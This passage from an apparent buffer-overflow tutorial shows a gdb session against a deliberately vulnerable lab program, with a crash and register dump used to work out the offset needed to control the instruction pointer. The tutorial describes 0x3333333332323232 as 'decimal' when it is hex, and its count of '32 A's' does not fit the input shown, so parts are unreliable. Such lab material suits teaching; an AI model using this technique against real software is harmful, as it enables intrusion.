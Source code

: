 ```bash
run AAAAAAAAAAAAAAAAAAAAAAAA0000111122223333444455556666
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/ubuntu/buffoflow/vulnerable AAAAAAAAAAAAAAAAAAAAAAAA0000111122223333444455556666
Breakpoint 1, 0x0000000000400597 in vulnerable_function ()
```

* Continue the execution of program

```bash
(gdb) continue
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0x00000000004005b1 in vulnerable_function ()
```

* From the generated output notice that there is segmentation fault.
* Lets examine the register.

```bash
(gdb) info registers
rax            0x0	0
rbx            0x0	0
rcx            0x400	1024
rdx            0x7ffff7dd59e0	140737351866848
rsi            0x7ffff7ff5000	140737354092544
rdi            0x7ffff7ff501a	140737354092570
rbp            0x3333333332323232	0x3333333332323232
rsp            0x7fffffffdec8	0x7fffffffdec8
r8             0xffffffff	4294967295
r9             0x0	0
r10            0x22	34
r11            0x246	582
r12            0x400490	4195472
r13            0x7fffffffdfc0	140737488347072
r14            0x0	0
r15            0x0	0
rip            0x4005b1	0x4005b1 <vulnerable_function+52>
eflags         0x10206	[ PF IF RF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
gs             0x0	0
```
<br>
* Here we can see that the content of ``rbp`` got overwritten with ``0x3333333332323232`` which is ``33332222`` in decimal, and  ``Little Endian`` notation of ``22223333``.<br>
* Here unlike ``32 bit`` we can not take direct control on ``rip``, but ``rbp``.<br>
* Now from the given input we can conclude that a total of ``32 A's`` required + some ``64 bit valid address`` in order to control rip and jump to some arbitrary address. <br>
* Lets create a python program which will print ``32 A's and 8 B's``<br>
input.py
